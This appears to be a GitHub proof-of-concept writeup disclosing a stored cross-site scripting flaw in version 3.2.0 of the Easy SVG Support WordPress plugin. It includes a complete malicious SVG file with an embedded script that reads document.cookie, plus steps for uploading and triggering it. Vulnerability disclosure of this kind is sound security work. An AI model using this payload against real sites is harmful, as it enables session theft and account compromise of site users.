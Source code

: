 # Cross Site Scripting Through SVG Files in Easy SVG Support Wordpress Plugin

This PoC describe how to exploit a Cross-Site Scripting (XSS) in - Wordpress Easy SVG Support version 3.2.0

# Description

The Easy SVG Support v3.2.0, plugin for Wordpress does not sanitize the SVG Files, so it is possible to upload a malicious SVG File to get a XSS.

![3](https://user-images.githubusercontent.com/70114276/165981178-debf89c7-9bc8-42ab-837b-51522856b98a.png)

## Attack Scenario

First we create our SVG file with this content:

![3](https://user-images.githubusercontent.com/70114276/165981536-9ee8b054-0275-4268-83c1-160039432cb2.png)

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400" />
<script type="text/javascript">
alert(document.cookie);
</script>
</svg>
```

Then we upload the file to WordPress

![4](https://user-images.githubusercontent.com/70114276/165983121-21ad9ce7-b823-4d87-b8b2-40d1978ee31e.png)

To validate the PoC, simply access the directory where the file was sent.

![5](https://user-images.githubusercontent.com/70114276/165983131-acb04469-b4d4-4eb1-985c-cea6cc4bc476.png)
